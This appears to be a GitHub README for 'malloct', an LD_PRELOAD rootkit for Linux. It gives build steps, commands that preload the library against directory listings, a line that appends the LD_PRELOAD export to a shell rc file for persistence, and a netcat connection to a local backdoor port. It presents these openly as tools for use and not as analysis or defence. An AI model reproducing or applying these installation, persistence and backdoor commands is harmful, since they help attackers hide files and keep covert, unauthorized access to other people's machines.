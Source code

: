 # malloct
LD_PRELOAD rootkit

# make / compile
$ make

# usage
**make your own configuration in src/config.h**

**is a core LD_PRELOAD rootkit**

**default prefix is lifeless-**

$ LD_PRELOAD=./libmalloct.so ls -aphl /home/$USER/

$ LD_PRELOAD=./libmalloct.so ls -hl /tmp/*

$ export LD_PRELOAD=/tmp/libmalloct.so

$ echo "export LD_PRELOAD=/tmp/libmalloct.so" >> /home/$USER/.kshrc

> set to which shell you are using

> you can set to the program you will use 

# nc
**you can set custom port in src/config.h**

nc -vn 127.0.0.1 1337

# example
![image](https://github.com/user-attachments/assets/67132173-bd65-4e18-a991-8664cd155849)
